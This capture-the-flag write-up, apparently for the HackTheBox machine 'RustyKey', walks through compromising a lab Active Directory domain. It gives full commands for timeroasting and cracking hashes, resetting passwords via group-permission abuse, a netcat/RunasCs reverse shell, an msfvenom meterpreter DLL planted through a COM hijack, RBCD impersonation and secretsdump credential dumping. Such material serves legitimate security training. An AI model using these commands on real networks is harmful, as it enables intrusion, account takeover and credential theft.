









# RustyKey

Rustykey (hard) is a Windows Active Directory challenge that teaches practical AD offensive techniques commonly seen in real-world engagements. We begin with low-privileged credentials `rr.parker:8#t5HE8L!W3A` and escalate via a sequence of Kerberos and Windows internals tricks:
- Kerberos timeroasting to harvest credentials from service tickets,
- COM hijacking for stealthy lateral execution, and
- RBCD (Resource-Based Constrained Delegation) to obtain full domain control.


## Enumeration

We start with an Nmap scan to get an idea of the services running on the machine.
```
nmap -Pn -sVC --min-rate 1000 10.10.11.75 -p-
```
```
Nmap scan report for 10.10.11.75
Host is up (0.16s latency).
Not shown: 65502 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-02 16:05:07Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
18913/tcp filtered unknown
22301/tcp filtered unknown
27848/tcp filtered unknown
31214/tcp filtered unknown
39631/tcp filtered unknown
43287/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     msrpc         Microsoft Windows RPC
49674/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open     msrpc         Microsoft Windows RPC
49677/tcp open     msrpc         Microsoft Windows RPC
49678/tcp open     msrpc         Microsoft Windows RPC
49681/tcp open     msrpc         Microsoft Windows RPC
49696/tcp open     msrpc         Microsoft Windows RPC
49736/tcp open     msrpc         Microsoft Windows RPC
54961/tcp filtered unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2025-09-02T16:06:15
|_  start_date: N/A
|_clock-skew: 2h30m02s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

From this scan, there are a couple of things to take note of:
- The machine is running Active Directory services and has the domain name as `rustykey.htb` with the domain controller at `dc.rustykey.htb`. So, they need to be added to `/etc/hosts`.

  ```
  echo "10.10.11.75  dc.rustykey.htb rustykey.htb" | sudo tee -a /etc/hosts
  ```
- There is a clock skew which needs to be removed so that we can access AD services such as LDAP. To reduce the clock skew,

  ```
  sudo ntpdate 10.10.11.75
  ```

Done with the above, we start by trying to connect to the AD using `nxc`. The attempt fails with a STATUS_NOT_SUPPORTED message. This is because the machine uses Kerberos-only-authentication.

To tackle this, let us obtain the TGT for **rr.parker** first.
```
getTGT.py rustykey.htb/rr.parker:'8#t5HE8L!W3A'
```
Then export the credential cache location for the ticket obtained.
```
export KRB5CCNAME=rr.parker.ccache
```
*These two steps will be used for every user and hereon, will be referred to as *getting the kerbereos ticket for user*.

With the ticket obtained and environment variable set, let us enumerate the users through `ldap` and extract them to a file.
```
nxc ldap rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --users
```
The following users are found,
```
Administrator
Guest
krbtgt
rr.parker
mm.turner
bb.morgan
gg.anderson
dd.ali
ee.reed
nn.marcos
backupadmin
```

Next, we collect data through bloodhound,
```
bloodhound-python -d rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -ns 10.10.11.75 -c All --zip
```
and ingest it through the Bloodhound WebApp (`bloodhound-cli`)


We do not find anything useful here.

Similarly, checking for SPNs for kerberoasting reveals nothing.
```
GetUserSPNs.py -k rustykey.htb/rr.parker:'8#t5HE8L!W3A'@dc.rustykey.htb -request -dc-host dc.rustykey.htb
```

Finally, we try timeroasting which reveals a lot of SNTP (Simple Network Time Protocol) hashes.
```
timeroast.py dc.rustykey.htb | tee hashes.txt
```
Let's crack them
```
john --format=timeroast hashes.txt --wordlist=/home/ice/Downloads/rockyou.txt
```


This gives us the password for an account with the RID 1125. We can search it on Bloodhound WebApp.



## Foothold

Obtaining the credentials to `IT-COMPUTER3$`, puts us on a really interesting path.


Apparently, **IT-COMPUTER3$** can add itself to **HELPDESK** group which has *GenericWrite* permission on DD.ALI,  *ForceChangePassword* permission on EE.REED, GG.ANDERSON, BB.MORGAN and *AddMember* permission on **PROTECTED OBJECTS**.

The **PROTECTED OBJECTS** group, further has a member group - **PROTECTED USERS**. Checking the members of these groups, indicate that we would need to tinker with these groups to un-protect some members before targeting them.


Having obtained the password for the new account, let us get its TGT and change the password of `BB.Morgan`.
```
getTGT.py rustykey.htb/IT-COMPUTER3$:'Rusty88!'
export KRB5CCNAME='IT-COMPUTER3$.ccache'
```

```
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb add groupMember 'HELPDESK' 'IT-COMPUTER3$'
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb remove groupMember 'PROTECTED OBJECTS' IT
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb set password 'BB.MORGAN' 'cocoRocks@1'
```

To use `evil-winrm` to login as __BB.MORGAN__, we would need to configure `krb-user` by changing `/etc/krb5.conf`.
```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

Then obtain the TGT and login using `evil-winrm`.
```
getTGT.py rustykey.htb/BB.MORGAN:'cocoRocks@1'
export KRB5CCNAME=BB.MORGAN.ccache
evil-winrm -i dc.rustykey.htb -r rustykey.htb
```

The user flag can be found on the Desktop of __BB.MORGAN__.


Futhermore, on the Desktop, we find an internal memo of the company.


## Privelege Escalation

The next step is to pivot to the user `EE.REED` who is a member of the **SUPPORT** group. We cannot directly logon to __EE.REED__ account as it is restricted. For this, let's change the password of __EE.REED__.

```
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb add groupMember 'HELPDESK' 'IT-COMPUTER3$'
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb remove groupMember 'PROTECTED OBJECTS' SUPPORT
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb set password 'EE.REED' 'cocoRocks@1'
```

Then, we upload `RunasCs.exe` through `evil-winrm` and obtain a reverse shell through `netcat` on our host machine.
```
rlwrap nc -lvnp 4446
```
```
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload RunasCs.exe
Info: Upload successful!
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCs.exe ee.reed cocoRocks@1 powershell.exe -r 10.10.16.6:4446
```

### EE.REED
As EE.REED, we first go on to search all zip related entries in the registry.
```
reg query HKCR\CLSID /s /f "zip"
```

This reveals the entries for 7zip.



### COM Hijack + RBCD

We create a malicious *dll* to obtain a reverse shell with privileges and upload it to `/tmp` using the existing `evil-winrm` connection as __BB.MORGAN__.
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f dll -e x64/xor -o shell_enc.dll
```

```
*Evil-WinRM* PS C:\tmp> upload shell_enc.dll
```

Then we set up our `Metasploit` listener.
```
msfconsole
```


Now, we perform COM (Component Object Model) Hijack.
```
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\shell_enc.dll" /f
```

*__Note:__ this reverse shell dies quickly within a few seconds, so be fast hereafter.

Now we perform the RBCD attack quickly. On the reverse shell just obtained, execute the following.
```
msf payload(windows/x64/meterpreter/reverse_tcp) > sessions -i 1
meterpreter > shell
C:\Windows> powershell.exe
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Now, on our own terminal, we execute the following commands to impersonate __BACKUPADMIN__ and get its service ticket.
```
export KRB5CCNAME=IT-COMPUTER3\$.ccache
getST.py -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```

And then, we try to get the hashes of users.

```
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```
```
secretsdump.py -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
```

Now, it's time to own the root flag.
```
getTGT.py rustykey.htb/'Administrator' -hashes ":<hidden>"
```
```
export KRB5CCNAME=Administrator.ccache
evil-winrm -i dc.rustykey.htb -u 'Administrator' -r rustykey.htb
```
And Boom! We get it.

The root flag can be found by executing the following command.
```
type C:/Users/Administrator/Desktop/root.txt
```

This concludes the RustyKey Machine.